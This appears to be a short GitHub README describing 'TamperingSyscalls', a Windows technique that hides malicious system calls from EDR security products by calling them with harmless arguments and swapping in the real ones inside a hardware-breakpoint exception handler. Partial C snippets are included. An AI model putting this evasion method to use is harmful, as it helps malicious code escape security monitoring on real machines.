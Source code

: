 # TamperingSyscalls

Tampering with syscalls. 

1. Set a hardware breakpoint on the address of a syscall instruction which has the bytes `0f05` on the Dr0 register.
We can locate the stub with this quick memory byte search.
```c
BYTE stub[] = { 0x0F, 0x05 };
	for( unsigned int i = 0; i < (unsigned int)25; i++ )
	{
		if( memcmp( (LPVOID)((DWORD_PTR)function + i), stub, 2 ) == 0 ) {
			return (LPVOID)((DWORD_PTR)function + i);
		}
	}
  ```
2. Make a call to this function with no arguments. The EDR will return us the SSN as our call is not malicious.
3. The EDR then returns flow to us. 
4. We then hit our syscall breakpoint where we enter our previously registered exception handler.
```c
SetUnhandledExceptionFilter( OneShotHardwareBreakpointHandler );
```
5. This exception handler will disable the hardware breakpoint for Dr0 only if the Dr0 and RIP match.
6. If it is matching, it'll switch on the StatePointer, and get the corresponding arguments for this function.
7. It will then fix the arguments into the register, and stack.
```c
switch( StatePointer ) {
case 0:
ExceptionInfo->ContextRecord->Rcx =
  (DWORD_PTR)((NtGetContextThread*)(StateArray[StatePointer].arguments))->ThreadHandle;
  ExceptionInfo->ContextRecord->Rdx =
	(DWORD_PTR)((NtGetContextThread*)(StateArray[StatePointer].arguments))->pContext;
// put your other states here.
```
